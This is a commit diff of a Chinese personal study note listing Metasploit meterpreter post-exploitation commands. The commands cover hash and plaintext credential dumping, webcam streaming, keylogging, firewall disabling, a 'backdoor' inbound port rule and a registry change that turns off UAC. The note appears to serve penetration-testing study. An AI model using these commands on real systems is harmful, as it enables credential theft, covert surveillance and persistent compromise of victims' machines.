

Before and after one commit to swdxiaoxiao/witer_markdown, a Markdown page: 笔记.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
修改文件: 笔记.md

```diff
--- a/笔记.md
+++ b/笔记.md
@@ -571,14 +571,56 @@ IPv6由128个bit组成
 
 # Kali
 
-**meterpreter:**
-//获取用户账户和加密的密码
-使用hashdump模块
+#### **meterpreter:**
+**获取用户账户和加密的密码**
+>使用hashdump模块
 >hashdump
 
-//提取目标主机的明文密码（在内存中提取凭证）：
-加载kiwi模块：
+**提取目标主机的明文密码（在内存中提取凭证）：**
+>加载kiwi模块：
 >load kiwi
+>提取所有的凭证
+>cresd_all
 
-提取所有的凭证
->cresd_all
+**截取当前屏幕信息（截图）**
+>screenshot
+
+**屏幕共享（实时监控屏幕）**
+>screenshare
+
+**打开对方摄像头**
+>webcam_stream
+
+**进程迁移，与稳定进程绑定**
+1.使进程更加稳定
+2.切换身份
+>==//获取用户信息 #B78D12==
+>getuid
+>==//查看进程 #B78D12==
+>ps
+>>==//查看[进程名称]的进程号[PID] #B78D12==
+>>ps -S [进程名称]
+>
+>==//进程迁移 #B78D12==
+>migrate PID
+
+**开启键盘记录**
+>run post/windowns/capture/keylog_recorder
+
+**进入目标终端**(windowns的cmd)
+>shell
+>//修改编码格式（默认GBK）
+>chcp 65001
+>//开启防火墙
+>netsh advfirewall set allprofiles state on
+>//关闭防火墙
+>netsh advfirewall set allprofiles state off
+>//添加入站规则，规则名backdoor　协议tcp　端口444
+>netsh firewall add portopening tcp 444 backdoor enable all
+>//关闭用户账户控制
+>>操作注册表关闭UAC
+>>✓ UAC: User Account Control用户帐户控制，是windows操作系统中一-种安全控制机制，
+使用UAC，可以防止未经授权应用程序的自动安装，阻止恶意程序
+✓ ADD添加一一个注册表项
+✓ /v创建键值 /t键值类型 /d键值的值/f强制覆盖 /0关闭 /1开启
+>>reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f
```
